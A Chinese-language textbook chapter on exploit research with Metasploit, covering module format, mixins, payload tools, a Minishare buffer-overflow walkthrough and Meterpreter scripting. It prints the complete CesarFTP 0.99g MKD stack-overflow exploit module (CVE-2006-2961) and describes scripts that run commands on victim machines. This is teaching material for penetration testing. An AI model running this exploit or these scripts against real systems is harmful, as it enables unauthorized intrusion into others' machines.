










# 第十二章：使用 Metasploit 进行利用研究

利用，简单来说，是一段代码或一系列命令，专门以典型格式编写，利用软件/硬件中的漏洞或弱点，并导致意外行为发生。这种意外行为可能以系统崩溃、拒绝服务、缓冲区溢出、蓝屏或系统无响应的形式出现。当我们谈论利用时，我们有一个称为零日利用的东西。零日利用是在漏洞被发现的当天利用安全漏洞。这意味着开发人员在漏洞被发现后没有时间来解决和修补漏洞。攻击者利用这些漏洞在目标软件的开发人员知道漏洞之前攻击易受攻击的系统。


图片来自[`static.itpro.co.uk/sites/itpro/files/styles/gallery_wide/public/security_exploits.jpg`](http://static.itpro.co.uk/sites/itpro/files/styles/gallery_wide/public/security_exploits.jpg)

# 利用编写的技巧和窍门

在本章中，我们将专注于使用 Metasploit 进行利用开发。Metasploit 中已经有大量的利用可用，可以在利用开发练习中进行编辑和使用。

## 重要点

在为 Metasploit 框架编写利用时需要记住一些重要的事项：

+   将大部分工作转移到 Metasploit 框架

+   使用 Rex 协议库

+   广泛使用可用的混合

+   声明的 badchars 必须 100%准确

+   确保有效载荷空间非常可靠

+   尽可能利用随机性

+   通过使用编码器随机化所有有效载荷

+   在生成填充时，使用`Rex::Text.rand_text_* (rand_text_alpha, rand_text_alphanumeric,`等等)

+   所有 Metasploit 模块都具有一致的结构和硬制表缩进

+   花哨的代码无论如何都更难维护

+   混合提供了框架中一致的选项名称

+   概念证明应该被编写为辅助 DoS 模块，而不是利用。

+   最终的利用可靠性必须很高

## 利用的格式

Metasploit 框架中的利用格式与辅助模块的格式类似，但具有更多字段。在格式化利用时需要记住一些重要的事项：

+   有效载荷信息块是绝对必要的

+   应该列出可用的目标

+   应该使用`exploit()`和`check()`函数，而不是`run()`函数

现在我们演示一个简单的 Metasploit 利用，以展示它是如何编写的：

```
require 'msf/core'
class Metasploit3 < Msf::Exploit::Remote
    Rank = ExcellentRanking
      include Msf::Exploit::Remote::Tcp
    include Msf::Exploit::EXE
```

我们通过包含 MSF 核心包来开始我们的利用模块。然后是类声明和函数定义。在我们的示例中，我们包含了一个简单的 TCP 连接，所以我们使用`Msf::Exploit::Remote::Tcp`。Metasploit 具有处理 HTTP、FTP 等的处理程序，这有助于更快地构建利用，因为我们不需要自己编写整个利用。我们需要定义长度和 badchars，然后定义目标。还需要定义特定于目标的设置，如返回地址和偏移量。然后我们需要连接到远程主机和端口，并构建和写入缓冲区到连接。一旦利用命中连接，我们处理利用然后断开连接。

典型的 Metasploit 利用模块包括以下组件：

+   头部和一些依赖项

+   利用模块的核心元素，包括：

+   `require 'msf/core'`

+   `类定义`

+   `includes`

+   `"def"定义`

+   `initialize`

+   `check (可选)`

+   `exploit`

这是我们的 Metasploit 利用的屏幕截图：


## 利用混合

混合物以其在向模块添加功能方面的有用性而闻名。基于 Ruby，它是一种单继承语言，混合物为多重继承提供支持。对于良好的利用开发，非常重要的是要理解并有效地使用混合物，因为 Metasploit 在很大程度上使用混合物。混合物不是特定于模块类别的，尽管它们出现在最接近定义它们的类别下。因此，我们可以在辅助模块中使用利用模块混合物，反之亦然。

## Auxiliary::Report 混合物

在 Metasploit 框架中，我们可以利用`Auxiliary::Report`混合物将主机、服务和漏洞信息保存到数据库中。它有两个内置方法，即`report_host`和`report_service`，用于指示主机和服务的状态（状态指示主机/服务是否正常工作）。要使用此模块，我们需要通过`include Auxiliary::Report`将此混合物包含到我们的类中。

因此我们可以利用此混合物将任何信息保存到数据库中。

## 广泛使用的利用混合物

广泛使用的利用混合物的解释如下：

+   `Exploit::Remote::Tcp`：为模块提供 TCP 功能和方法。它帮助使用`connect()`和`disconnect()`建立 TCP 连接。它创建`self.sock`作为全局套接字，并提供 SSL、代理、CPORT 和 CHOST。它使用参数如 RHOST、RPORT 和 ConnectTimeout。其代码文件位于`lib/msf/core/exploit/tcp.rb`。

+   `Exploit::Remote::DCERPC`：此混合物提供了与远程计算机上的 DCERPC 服务交互的实用方法。这些方法通常在利用的上下文中非常有用。此混合物继承自 TCP 利用混合物。它使用方法如`dcerpc_handle()`、`dcerpc_bind()`和`dcerpc_call()`。它还支持使用多上下文 BIND 请求和分段 DCERPC 调用的 IPS 规避方法。其代码文件位于`lib/msf/core/exploit/dcerpc.rb`。

+   `Exploit::Remote::SMB`：此混合物提供了与远程计算机上的 SMB/CIFS 服务交互的实用方法。这些方法通常在利用的上下文中非常有用。此混合物扩展了 TCP 利用混合物。只能使用此类一次访问一个 SMB 服务。它使用方法如`smb_login()`、`smb_create()`和`smb_peer_os()`。它还支持像 SMBUser、SMBPass 和 SMBDomain 这样的选项。它公开 IPS 规避方法，如`SMB::pipe_evasion`、`SMB::pad_data_level`和`SMB::file_data_level`。其代码文件位于`lib/msf/core/exploit/smb.rb`。

+   `Exploit::Remote::BruteTargets`：此混合物提供对目标的暴力攻击。基本上它重载了`exploit()`方法，并为每个目标调用`exploit_target(target)`。其代码文件位于`lib/msf/core/exploit/brutetargets.rb`。

+   `Exploit::Remote::Brute`：此混合物重载了 exploit 方法，并为每个步骤调用`brute_exploit()`。它最适用于暴力攻击和地址范围。地址范围是一个远程暴力攻击混合物，最适用于暴力攻击。它提供了一个目标感知的暴力攻击包装器。它使用提供的地址调用`brute_exploit`方法。如果这不是一个暴力攻击目标，那么将调用`single_exploit`方法。`Exploit::Remote::Brute`的代码文件位于`lib/msf/core/exploit/brute.rb`。

## 编辑利用模块

了解编写利用模块的一个好方法是首先编辑一个。我们编辑位于`opt/metasploit/msf3/modules/exploits/windows/ftp/ceaserftp_mkd.rb`的模块。

### 注意

作者的注释在#符号后显示。

```
##
# $Id: cesarftp_mkd.rb 14774 2012-02-21 01:42:17Z rapid7 $
##

##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# web site for more information on licensing and terms of use.
#   http://metasploit.com/
##

require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
	Rank = AverageRanking

	include Msf::Exploit::Remote::Ftp

	def initialize(info = {})
		super(update_info(info,
			'Name'           => 'Cesar FTP 0.99g MKD Command Buffer Overflow',
			'Description'    => %q{
				This module exploits a stack buffer overflow in the MKD verb in CesarFTP 0.99g.

				You must have valid credentials to trigger this vulnerability. Also, you
				only get one chance, so choose your target carefully.
			},
			'Author'         => 'MC',
			'License'        => MSF_LICENSE,
			'Version'        => '$Revision: 14774 $',
			'References'     =>
				[
					[ 'CVE', '2006-2961'],
					[ 'OSVDB', '26364'],
					[ 'BID', '18586'],
					[ 'URL', 'http://secunia.com/advisories/20574/' ],
				],
			'Privileged'     => true,
			'DefaultOptions' =>
				{
					'EXITFUNC' => 'process',
				},
			'Payload'        =>
				{
					'Space'    => 250,
					'BadChars' => "\x00\x20\x0a\x0d",
					'StackAdjustment' => -3500,
					'Compat'        =>
						{
							'SymbolLookup' => 'ws2ord',
						}
				},
			'Platform'       => 'win',
			'Targets'        =>
				[
					[ 'Windows 2000 Pro SP4 English', { 'Ret' => 0x77e14c29 } ],
					[ 'Windows 2000 Pro SP4 French',  { 'Ret' => 0x775F29D0 } ],
					[ 'Windows XP SP2/SP3 English',       { 'Ret' => 0x774699bf } ], # jmp esp, user32.dll
					#[ 'Windows XP SP2 English',       { 'Ret' => 0x76b43ae0 } ], # jmp esp, winmm.dll
					#[ 'Windows XP SP3 English',       { 'Ret' => 0x76b43adc } ], # jmp esp, winmm.dll
					[ 'Windows 2003 SP1 English',     { 'Ret' => 0x76AA679b } ],
				],
			'DisclosureDate' => 'Jun 12 2006',
			'DefaultTarget'  => 0))
	end

	def check
		connect
		disconnect

		if (banner =~ /CesarFTP 0\.99g/)
			return Exploit::CheckCode::Vulnerable
		end
			return Exploit::CheckCode::Safe
	end

	def exploit
		connect_login

		sploit =  "\n" * 671 + rand_text_english(3, payload_badchars)
		sploit << [target.ret].pack('V') + make_nops(40) + payload.encoded

		print_status("Trying target #{target.name}...")

		send_cmd( ['MKD', sploit] , false)

		handler
		disconnect
	end

end
```

## 使用有效载荷

在使用有效载荷时，我们需要选择一个编码器，它不会触及某些寄存器，必须在最大尺寸以下，必须避开坏字符，并且应根据它们的排名进行选择。

接下来是 Nops 生成器，应该首先选择最随机的 Nop。此外，它们根据其有效性进行排名，并应相应选择。以下是有效载荷列表：

+   `msfvenom` - 这是`msfpayload`和`msfencode`的组合。它是一个单一的工具，具有标准化的命令行选项和良好的速度。

+   `msfpayload`：这是 Metasploit 的基本命令行实例，用于生成和输出 Metasploit 中所有可用的 shell 代码。它通常用于生成 Metasploit 框架中当前不存在的利用的 shell 代码。它甚至用于在利用模块中使用和测试不同类型的 shell 代码和选项。

+   `msfencode`：这是 Metasploit 的另一个强大的有效载荷，用于利用开发。有时直接使用`msfpayload`生成的 shell 代码会变得困难，因此必须对其进行编码。

# 编写利用程序

在这部分中，我们将为 Minishare Version 1.4.1 编写一个小型的利用程序。首先在桌面上创建一个文件，任意命名，并将其保存为 Python 扩展文件。例如，我们创建一个名为`minishare.py`的文件。接下来，只需在该文件上编写利用代码。代码如下截图所示：



我们将在`minishare.py`文件中写入截图中显示的代码，并保存。现在我们可以针对已经安装了 Minishare 软件的目标机器运行我们的利用程序。打开终端并从文件所在的目录执行`minishare.py`文件。因此，在终端中输入`./minishare.py <目标 IP>`；例如，这里我们使用`./minishare.py 192.168.0.110`。


执行利用后，我们看到 Minishare 已经崩溃，如下面的截图所示：


接下来，我们将使用一个非常有用的 Metasploit 实用程序，称为`pattern_create.rb`。这个程序位于 Metasploit 的`tools`文件夹中，如下面的截图所示。使用这个脚本将生成一个由唯一字符串模式组成的字符串。因此，我们可以通过使用这个脚本创建一个随机模式来替换我们当前的缓冲区模式。



我们输入`ruby pattern_create.rb 2000`，然后按*Enter*。这将为我们创建一个随机字符串模式，可以用于引起缓冲区溢出并找出溢出的确切内存位置。



然后我们用刚生成的随机模式替换缓冲区中的原始字符串模式。因此，我们再次有了一系列随机字符串的缓冲区，可以用于在 Minishare 软件中引起缓冲区溢出。



创建缓冲区后，我们再次运行脚本，如下面的截图所示，并等待结果。


在受害者的机器上，由于运行在其上的缓冲区溢出利用，Minishare 再次崩溃，如下面的截图所示：


# 使用 Metasploit 进行脚本编写

现在我们将介绍使用 Ruby 进行自定义 Metasploit 脚本的一些概念。让我们从一个非常简单的程序开始，它将在屏幕上打印**Hello World**。在下面的截图中演示了我们如何编写我们的第一个简单程序。我们甚至可以简单地在文本编辑器中写下相同的程序，并将其保存在目标文件夹中。


由于我们已经有了一个 Meterpreter 会话，我们可以通过输入`run helloworld`来简单地运行我们的脚本。我们可以看到，我们的程序已经成功执行，并在屏幕上打印了`Hello World`。因此，我们成功地构建了我们自己的自定义脚本。


之前，我们使用了`print_status`命令；同样，我们可以使用`print_error`来显示标准错误，使用`print_line`来显示一行文本。



我们可以看到，这已经显示在屏幕上，如下面的截图所示：

使用 Metasploit 脚本

现在让我们继续为我们的程序提供更有结构的外观，引入函数的使用，处理不正确的输入，并通过脚本提取一些重要信息。在这个脚本中，我们将使用一些 API 调用来查找有关受害者系统的基本信息，例如操作系统、计算机名称和脚本的权限级别。



现在让我们运行脚本。它成功地通过使用 API 调用给了我们所有需要的信息。因此，通过提取受害者计算机的基本信息，我们在脚本技能方面又向前迈进了一步。因此，我们在这里所做的是声明一个函数，就像在任何其他编程语言中一样，以维护程序的结构，并将一个名为`session`的变量传递给它。这个变量用于调用各种方法来打印受害者的基本计算机信息。之后，我们有一些状态消息，然后是 API 调用的结果。最后，我们使用`getinfo(client)`来调用我们的函数。


接下来，我们将编写更高级的 Meterpreter 脚本，并从目标受害者那里收集更多信息。这次我们有两个参数，名为`session`和`cmdlist`。首先，我们打印一个状态消息，然后设置一个响应超时，以防会话挂起。之后，我们运行一个循环，逐个接收数组中的项目，并通过`cmd.exe /c`在系统上执行它。接下来，它打印从命令执行返回的状态。然后，我们设置从受害者系统中提取信息的命令，例如`set`、`ipconfig`和`arp`。



最后，我们通过在 Meterpreter 中键入`run helloworld`来运行我们的脚本；我们的代码成功地在目标系统上执行，提供了重要信息，如下面的截图所示：



# 总结

在本章中，我们介绍了使用 Metasploit 进行利用研究的基础知识。利用本身是一个非常广泛的主题，需要单独学习。我们介绍了 Metasploit 中的各种有效载荷，并学习了如何设计利用。我们还介绍了一系列用于在 Meterpreter 会话中检索信息的 Metasploit 脚本基础知识。在下一章中，我们将介绍两个 Metasploit 附加工具，社会工程工具包和 Armitage。

# 参考资料

以下是一些有用的参考资料，可以进一步阐明本章涵盖的一些主题：

+   [`searchsecurity.techtarget.com/definition/zero-day-exploit`](http://searchsecurity.techtarget.com/definition/%E2%80%A8zero-day-exploit)

+   [`en.wikipedia.org/wiki/Exploit_%28computer_security%29`](http://en.wikipedia.org/wiki/Exploit_%28computer_security%29)

+   [`en.wikipedia.org/wiki/Zero-day_attack`](https://en.wikipedia.org/wiki/Zero-day_attack)

+   [`www.offensive-security.com/metasploit-unleashed/Exploit_Design_Goals`](http://www.offensive-security.com/metasploit-unleashed/%E2%80%A8Exploit_Design_Goals)

+   [`www.offensive-security.com/metasploit-unleashed/Exploit_Format`](http://www.offensive-security.com/metasploit-unleashed/%E2%80%A8Exploit_Format)

+   [`www.offensive-security.com/metasploit-unleashed/Exploit_Mixins`](http://www.offensive-security.com/metasploit-unleashed/%E2%80%A8Exploit_Mixins)

+   [`en.wikibooks.org/wiki/Metasploit/UsingMixins`](http://en.wikibooks.org/wiki/Metasploit/UsingMixins)

+   [`www.corelan.be/index.php/2009/08/12/exploit-writing-tutorials-part-4-from-exploit-to-metasploit-the-basics/`](https://www.corelan.be/index.php/2009/08/12/exploit-writing-tutorials-part-4-from-exploit-to-metasploit-the-basics/)

+   [`www.offensive-security.com/metasploit-unleashed/Msfpayload`](http://www.offensive-security.com/metasploit-unleashed/Msfpayload)

+   [`www.offensive-security.com/metasploit-unleashed/Msfvenom`](http://www.offensive-security.com/metasploit-unleashed/Msfvenom)

+   [`dev.metasploit.com/api/Msf/Exploit/Remote/DCERPC.html`](https://dev.metasploit.com/api/Msf/Exploit/Remote/DCERPC.html)

+   [`dev.metasploit.com/api/Msf/Exploit/Remote/SMB.html`](https://dev.metasploit.com/api/Msf/Exploit/Remote/SMB.html)

+   Metasploit exploit payloads: [`www.offensive-security.com/metasploit-unleashed/Exploit_Payloads`](http://www.offensive-security.com/metasploit-unleashed/Exploit_Payloads)

+   Writing Windows exploits: [`en.wikibooks.org/wiki/Metasploit/WritingWindowsExploit`](http://en.wikibooks.org/wiki/Metasploit/WritingWindowsExploit)

+   Custom scripting with Metasploit: [`www.offensive-security.com/metasploit-unleashed/Custom_Scripting`](http://www.offensive-security.com/metasploit-unleashed/Custom_Scripting)

+   Cesar FTP exploits: [`www.exploit-db.com/exploits/16713/`](http://www.exploit-db.com/exploits/16713/)

+   Exploit Research using Metasploit [`www.securitytube.net/video/2706`](http://www.securitytube.net/video/2706)
